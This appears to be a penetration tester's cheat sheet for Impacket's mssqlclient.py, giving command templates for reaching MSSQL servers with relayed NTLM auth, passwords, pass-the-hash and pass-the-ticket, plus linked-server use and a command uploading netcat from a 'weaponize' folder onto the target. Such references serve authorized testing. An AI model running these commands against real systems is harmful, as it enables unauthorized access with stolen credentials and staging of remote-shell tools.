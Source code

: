 # mssqlclient.py (imp)
% windows, impacket-mssql

#plateform/linux  #target/remote  #protocol/sql  #port/1433 #tag/impacket

## desc
```
MSSQL client, supporting SQL and Windows Authentications (hashes too). It also supports TLS.
```

## interactive - ntlm relayed auth (user)
```bash
mssqlclient.py -debug <domain_netbios>/<user>@<target_fqdn>  -windows-auth -no-pass
```

## interactive - ntlm relayed auth (computer)
```bash
mssqlclient.py -debug <domain_netbios>/'<user>$'<target_fqdn>  -windows-auth -no-pass
```

## interactive - sql auth (creds) 
 -port PORT (1433)
 -db DB
 -dc-ip ip (If ommited it use the domain part (FQDN) specified in the target parameter)
```bash
mssqlclient.py -debug <target_netbios>/<user>:'<password>'@<target_fqdn>
```

## interactive -  windows auth (creds)
 -port PORT (1433)
 -db DB
 -dc-ip ip (If ommited it use the domain part (FQDN) specified in the target parameter)
```bash
mssqlclient.py -debug -windows-auth <domain_fqdn>/<user>:'<password>'@<target_fqdn> 
```

## interactive - sql auth (pth)
 -port PORT (1433)
 -db DB
 -dc-ip ip (If ommited it use the domain part (FQDN) specified in the target parameter)
```bash
mssqlclient.py -debug -hashes :<nt_hash> <target_netbios>/<user>@<target_fqdn> 
```

## interactive - windows auth (ptt)
 -port PORT (1433)
 -db DB
 -dc-ip ip (If ommited it use the domain part (FQDN) specified in the target parameter)
```bash
KRB5CCNAME=<ccache> mssqlclient.py -debug -windows-auth -no-pass -k <target_fqdn> 
```

## batch - sql auth (creds) 
 -port PORT (1433)
 -db DB
 -dc-ip ip (If ommited it use the domain part (FQDN) specified in the target parameter)
```bash
mssqlclient.py -debug -file <cmd-file> -show <target_netbios>/<user>:'<password>'@<target_fqdn>
```

## batch - windows auth (creds) 
 -port PORT (1433)
 -db DB
 -dc-ip ip (If ommited it use the domain part (FQDN) specified in the target parameter)
```bash
mssqlclient.py -debug -file <cmd-file> -show -windows-auth <domain_fqdn>/<user>:'<password>'@<target_fqdn>
```


## cmd - upload
```bash
upload /opt/windows/windows_weaponize/bin/nc64.exe c:\Users\Public\nc.exe
```

## cmd - use link
```bash
use_link "<link_name>"
```
